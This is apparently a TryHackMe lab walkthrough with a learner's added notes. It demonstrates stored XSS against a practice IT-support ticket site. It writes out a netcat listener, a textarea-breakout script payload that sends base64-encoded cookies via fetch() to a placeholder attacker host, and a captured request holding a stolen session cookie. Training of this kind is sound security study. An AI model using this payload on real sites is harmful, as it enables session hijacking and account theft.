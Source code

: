 ```shell-session
user@machine$ nc -nlvp 9001
Listening on [0.0.0.0] (family 0, port 9001)
```

Now that we’ve set up the method of receiving the exfiltrated information, let’s build the payload.

`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`

Let’s break down the payload:

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.

Now create another ticket using the above payload, making sure to swap out the `URL_OR_IP:PORT_NUMBER` variables with your settings (make sure to specify the port number as well for the Netcat listener). Now, wait up to a minute, and you will see the request come through containing the victim’s cookies.
<div align="center">
<br>
<br>
※※※※※※※※※※※※※※※※※※※※ ADDED NOTES ※※※※※※※※※※※※※※※※※※※※
<br>
<br>
</div>
```shell
root@ip-10-10-99-93:~# nc -nlvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.248.118 54360
GET /?cookie=c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ== HTTP/1.1
Host: 10.10.99.93:9001
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.72 Safari/537.36
Accept: */*
Origin: http://172.17.0.1
Referer: http://172.17.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

```
<div align="center">
<br>
<br>
※※※※※※※※※※※※※※※※※※※※ ADDED NOTES ※※※※※※※※※※※※※※※※※※※※
<br>
<br>
</div>
